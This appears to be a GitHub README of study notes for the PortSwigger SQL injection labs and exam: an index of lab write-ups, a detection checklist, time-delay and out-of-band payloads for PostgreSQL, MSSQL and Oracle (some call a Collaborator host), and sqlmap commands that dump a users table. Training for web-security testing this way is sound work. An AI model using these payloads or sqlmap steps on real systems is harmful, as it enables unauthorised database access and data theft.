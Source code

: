# [SQL injection](https://portswigger.net/web-security/sql-injection)

## Lab

- apprentice:
  - [1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](./lab/1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md)
    - postgresql (based on time delay)
  - [2. SQL injection vulnerability allowing login bypass](./lab/2.%20SQL%20injection%20vulnerability%20allowing%20login%20bypass.md)
    - postgresql (based on time delay)
- practitioner:
  - [3. SQL injection UNION attack, determining the number of columns returned by the query](./lab/3.%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query.md)
    - postgresql (based on time delay)
  - [4. SQL injection UNION attack, finding a column containing text](./lab/4.%20SQL%20injection%20UNION%20attack%2C%20finding%20a%20column%20containing%20text.md)
    - postgresql (based on time delay)
  - [5. SQL injection UNION attack, retrieving data from other tables](./lab/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables.md)
    - postgresql (based on time delay)
  - [6. SQL injection UNION attack, retrieving multiple values in a single column](./lab/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column.md)
    - postgresql (based on time delay)
  - [7. SQL injection attack, querying the database type and version on Oracle](./lab/7.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [8. SQL injection attack, querying the database type and version on MySQL and Microsoft](./lab/8.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft.md)
    - mssql (require space after double dash)
  - [9. SQL injection attack, listing the database contents on non-Oracle databases](./lab/9.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases.md)
    - postgresql (based on time delay)
  - [10. SQL injection attack, listing the database contents on Oracle](./lab/10.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [11. Blind SQL injection with conditional responses](./lab/11.%20Blind%20SQL%20injection%20with%20conditional%20responses.md)
    - postgresql (based on time delay)
  - [12. Blind SQL injection with conditional errors](./lab/12.%20Blind%20SQL%20injection%20with%20conditional%20errors.md)
    - oracle
  - [13. Blind SQL injection with time delays](./lab/13.%20Blind%20SQL%20injection%20with%20time%20delays.md)
    - postgresql (based on time delay)
  - [14. Blind SQL injection with time delays and information retrieval](./lab/14.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval.md)
  - [15. Blind SQL injection with out-of-band interaction](./lab/15.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction.md)
    - oracle (oob interaction)
  - [16. Blind SQL injection with out-of-band data exfiltration](./lab/16.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration.md)
  - [17. SQL injection with filter bypass via XML encoding](./lab/17.%20SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding.md)

## Preparation for exam

[cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

detect:

- burp scanner
- sqlmap
- manual

  - determine version
  - blind or not
  - find number of columns return by query
  - check columns data type

  - if blind
    - time delay check
    - time delay data retrieval
    - conditional response: compare reponse
    - conditional error: compare status code
    - oob interaction
    - oob data exfiltration

## Version detection

server synchronous (time delay):

- mssql:
- mysql:
- postgresql:

  ```sql
  '||pg_sleep(10)--
  ```

  ```sql
  ';SELECT NULL from pg_sleep(10)--
  ```

- oracle:

server asynchronous (out of band):

- mssql (maybe)

  ```sql
  ';exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'-- 
  ```

- mysql
- postgresql

- oracle:

  ```sql
  'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//collaborator/">+%25remote%3b]>'),'/l')+FROM+dual--;
  ```

## sqlmap

technique:

- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries

phase:

- sqlmap -r ~/Desktop/test-sqlmap -batch
- sqlmap -r ~/Desktop/test-sqlmap -batch -dbs
- sqlmap -r ~/Desktop/test-sqlmap -batch -D public --tables
- sqlmap -r ~/Desktop/test-sqlmap -batch -D public -T users -dump

successed: lab [5](./lab/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables.md), [6](./lab/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column.md), [9](./lab/9.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases.md), [10](./lab/10.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle.md), [11](./lab/11.%20Blind%20SQL%20injection%20with%20conditional%20responses.md), [14](./lab/14.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval.md)

- synchronous, time-delays

failed: lab [12](./lab/12.%20Blind%20SQL%20injection%20with%20conditional%20errors.md), [15](./lab/15.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction.md), [16](./lab/16.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration.md), [17](./lab/16.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration.md)

- asynchronous, oob (maybe portswigger labs only), tamper

## References

[cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
